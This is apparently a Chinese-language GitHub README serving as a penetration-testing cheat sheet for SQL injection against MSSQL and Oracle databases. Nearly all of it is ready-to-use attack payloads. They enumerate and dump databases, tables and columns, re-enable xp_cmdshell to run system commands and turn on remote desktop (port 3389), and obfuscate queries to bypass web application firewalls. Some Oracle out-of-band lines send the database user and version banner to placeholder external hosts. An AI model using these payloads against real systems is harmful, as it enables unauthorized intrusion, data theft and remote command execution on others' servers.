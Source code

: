 # 渗透相关语法

相关漏洞学习资料，利用方法和技巧合集 


目录
-----------------

* [Hacking study](#渗透相关语法)
	* [注入基础](#注入基础)
		 * [mssql注入](#mssql注入)
		 * [oracle注入](#oracle注入)
	 
## 注入基础
> **mssql、mysql、oracle 相关注入基础语句** 
### mssql注入

布尔注入：

**判断版本号**
```
' aNd @@version LIKE '%2015%'--+	
```
**如果存在，返回 true说明后台数据库是MSSQL，否则返回 false**
```
' and exists(select * from sysobjects)--+	
```
**判断当前是否为sa**
```
' and exists(select is_srvrolemember('sysadmin'))--+	
```
**判断有没有xp_cmdshell扩展**
```
' and (select count(*) FROM master. dbo.sysobjects Where xtype ='X' AND name = 'xp_cmdshell')>0--+	
```
**恢复xp_cmdshell**
```
';dbcc addextendedproc ("sp_oacreate","odsole70.dll")
';dbcc addextendedproc ("xp_cmdshell","xplog70.dll")
或
';exec sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'--+
```
**开启xp_cmdshell**
```
;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--+
```
**命令执行**
```
';exec master..xp_cmdshell 'net user'--+	
' and 1=(select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''net user'''))--+
```
**创建一个包含两个字段t1的cmd_sql表**
```
'; CREATE TABLE cmd_sql (t1 varchar(8000))--+
将执行结果存入t1中
';+insert into cmd_sql(t1) exec master..xp_cmdshell 'net user'--+
```
**开启3389端口**
```
';exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'--+	
```

报错注入：

**查看版本号**
```
file_name(@@version)
```
**变换N的值就可以爆出所有数据库的名称**
```
' and (convert(int,db_name(N)))>0--+ 
```
**查看当前用户**
```
' and (user)>0--+ 	
' and 1=(select CAST(USER as int))--+
```
**获取当前数据库**  
```
' and 1=(select db_name())--+
```
**获取数据库该语句是一次性获取全部数据库，且语句只适合>=2005**
```
' and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--+
```
**获取数据库所有表（只限于mssql2005及以上版本）**
```
' and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select top 1 name from sysobjects where xtype='u' and name <> '第一个数据库表名')--+
```
**一次性爆N条所有字段的数据（只限于mssql2005及以上版本）**
```
' and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--+
' and 1=(select top 1 * from 指定数据库..指定表名 FOR XML PATH(''))--+
```
**暴表**
```
' and 1=convert(int,(select top 1 table_name from information_schema.tables))--+
```

绕waf

**获取版本和数据库名**
```
'%1eaNd%1e@@version LIKE '%2015%'--+	
'%1eoR%1e1=(db_name/**/()%1e)%1e--+
```
**获取全部数据库**
```
'%1eoR%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename(name)%1efRom master%0f..sysobjects%1ewHerE%1extype='U' FOR XML PATH(''))%1e--
```
**获取表的所有列**
```
'%1eaND%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename/**/(name)%1efRom 数据库名%0f..syscolumns%1ewHerE%1eid=(selEct/*xxxxxxxxx*/%1eid%1efrom%1e数据库名%0f..sysobjects%1ewHerE%1ename='表名')%1efoR%1eXML%1ePATH/**/(''))%1e-
```

### oracle注入

联合查询
**判断是否oracle，在mssql和mysql以及db2内返回长度值是调用len()函数；在oracle和INFORMIX则是length()**
```
' and len('a')=1--+
```
**获取当前数据库用户**
```
' and 1=2 union select null,(select banner from sys.v_$version where rownum=1),null from dual--+
```
**爆当前数据库中的第二个表**
```
' and 1=2 union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('第一个表')) from dual--+
```
**爆某表中的第一个字段**
```
' and 1=2 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名（大写的）') from dual--+
```

报错注入

**获取当前数据库用户**
```
' and 1=ctxsys.drithsx.sn(1,(select user from dual))--+
' and 1=utl_inaddr.get_host_name((select user from dual))--+
' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--+
' and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user)--+
' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null--+
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null--+
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--+
```

带外注入
**获取当前数据库用户**
```
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.xxx') from dual) is not null--+
```
**获取版本信息**
```
' and 1=utl_http.request('.xxx.xxxx'||(select banner from sys.v_$version where rownum=1))--+
' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxxx.xxxx') from dual) is not null--+
```

时间盲注
**当前获取用户**
```
' and 1=(DBMS_PIPE.RECEIVE_MESSAGE('a',10))--+
' AND 7238=(CASE WHEN (ASCII(SUBSTRC((SELECT NVL(CAST(USER AS VARCHAR(4000)),CHR(32)) FROM DUAL),1,1))>96) THEN DBMS_PIPE.RECEIVE_MESSAGE(CHR(71)||CHR(106)||CHR(72)||CHR(73),1) ELSE 7238 END)
```




